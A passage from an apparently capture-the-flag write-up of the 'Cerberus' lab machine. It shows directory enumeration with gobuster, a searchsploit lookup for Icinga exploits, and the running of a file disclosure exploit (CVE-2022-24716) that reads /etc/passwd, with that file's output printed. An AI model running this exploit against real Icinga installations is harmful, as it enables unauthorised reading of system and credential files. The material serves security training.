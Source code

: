 ```bash
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://cerberus.local:8080
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/server-status        (Status: 403) [Size: 281]
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================
```

Both `nikto` and `gobuster` don't returns useful things.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ searchsploit icinga
--------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                       |  Path
--------------------------------------------------------------------- ---------------------------------
Icinga - cgi/config.c process_cgivars Function Off-by-One Read Remot | cgi/dos/38882.txt
Icinga Web 2.10 - Arbitrary File Disclosure                          | php/webapps/51329.py
Icinga Web 2.10 - Authenticated Remote Code Execution                | php/webapps/51586.py
--------------------------------------------------------------------- ---------------------------------
```

I found several exploits from `searchsploit`.
I think `51586.py` is not my choice for now since we don't have any valid credentials.
Instead, let's try "File Disclosure" exploit.



# Shell as `www-data`
### File Disclosure (CVE-2022-24716)

```bash
┌──(kali㉿kali)-[~/htb]
└─$ python 51329.py http://icinga.cerberus.local:8080/icingaweb2 /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
```